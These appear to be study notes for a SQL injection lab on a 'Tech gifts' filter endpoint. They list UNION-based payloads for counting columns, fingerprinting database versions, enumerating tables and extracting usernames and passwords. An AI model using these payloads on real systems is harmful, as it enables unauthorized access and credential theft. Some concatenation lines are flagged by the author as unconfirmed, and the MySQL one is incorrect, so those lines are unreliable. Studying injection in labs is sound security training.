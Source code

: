 Assuming: GET /filter?category=Tech+gifts HTTP/1.1

Checkpoint 1. Determine number of columns

    Method 1:
      =Tech+gifts' ORDER BY 1-- HTTP/1.1          // note must replace -- with # for comment in MySQL
      =Tech+gifts' ORDER BY 2-- 
      =Tech+gifts' ORDER BY 3-- 
      etc. 
    
    Method 2:
      =Tech+gifts' UNION SELECT NULL-- HTTP/1.1    // note must use THIS FOR ORACLE: ' UNION SELECT NULL FROM DUAL --
      =Tech+gifts' UNION SELECT NULL,NULL-- 
      =Tech+gifts' UNION SELECT NULL,NULL,NULL-- 
      etc.
    
    
Checkpoint 2. Determine columns with a useful data type

      =Tech+gifts' UNION SELECT 'a',NULL,NULL,NULL-- HTTP/1.1
      =Tech+gifts' UNION SELECT NULL,'a',NULL,NULL--
      =Tech+gifts' UNION SELECT NULL,NULL,'a',NULL--
      =Tech+gifts' UNION SELECT NULL,NULL,NULL,'a'--
      
Checkpoint 3. Examine Database

      Microsoft, MySQL:       SELECT @@version
      Oracle:                 SELECT * FROM v$version
      PostgreSQL:             SELECT version() 
      
      Example for Microsoft:  =Tech+gifts' UNION SELECT @@version,NULL-- HTTP/1.1
      Example for Oracle:     =Tech+gifts' UNION SELECT banner,NULL FROM v$version-- HTTP/1.1
      
Checkpoint 4. List contents of the Database 

    Works for all except Oracle
      1. =Tech+gifts' UNION SELECT table_name,NULL FROM information_schema.tables-- HTTP/1.1
      2. =Tech+gifts' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'Users'--
      3. =Tech+gifts' UNION SELECT username_sdfsd,password_asd FROM users_verwlw--
          https://www.postgresql.org/docs/9.5/infoschema-columns.html
    
    Listing Contents for Oracle:
      1. =Tech+gifts' UNION SELECT table_name,NULL FROM all_tables-- HTTP/1.1
      2. =Tech+gifts' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name = 'Users'--
      3. =Tech+gifts' UNION SELECT username_sdfsd,password_asd FROM users_verwlw--	
          https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286
     
Checkpoint 5. Retrieve Multiple Values within a single column
    
    =Tech+gifts' UNION SELECT null,username || password FROM users-- HTTP/1.1   // Oracle and PostgreSQL
    =Tech+gifts' UNION SELECT null,username + password FROM users--             // Microsoft *** NEED CONFIRMATION
    =Tech+gifts' UNION SELECT null,username password FROM users--               // MySQL (notice the space) *** NEED CONFIRMATION
        
    
